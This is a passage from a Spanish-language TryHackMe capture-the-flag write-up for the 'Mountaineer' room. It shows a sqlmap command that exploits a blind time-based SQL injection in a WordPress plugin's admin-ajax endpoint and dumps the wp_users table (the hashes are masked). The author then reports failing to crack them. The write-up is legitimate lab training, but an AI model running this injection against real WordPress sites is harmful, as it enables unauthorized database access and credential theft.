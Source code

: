 ![](../assets/img/mountaineer-tryhackme-writeup/6.png)

Como la inyección es ciega y basada en tiempo, logramos "*ir al turrón*" extrayendo las credenciales de los diferentes usuarios de WordPress:
```
> sqlmap -u "http://mountaineer.thm/wordpress/wp-admin/admin-ajax.php?action=mec_load_single_page&time=1" -p "time" --dbs --random-agent --batch --dbms=mysql -D wordpress -T wp_users -C user_login,user_pass --dump

Database: wordpress
Table: wp_users
[5 entries]
+------------+------------------------------------+
| user_login | user_pass                          |
+------------+------------------------------------+
| MontBlanc  | $P$B*************** |
| ChoOyu     | $P$B*************** |
| K2         | $P$B**************** |
| admin      | $P$BV*************** |
| Everest    | $P$B*************** |
+------------+------------------------------------+
```

Por desgracia, no conseguimos crackear ninguna de las credenciales, y aquí empieza el tormento :D.

Tras varias horas buscando el punto de entrada, del cual también me generé una infinidad de diccionarios personalizados para intentar romper los hashes, *0day* mostró una pista (Thank guy!):
![](../assets/img/mountaineer-tryhackme-writeup/7.png)
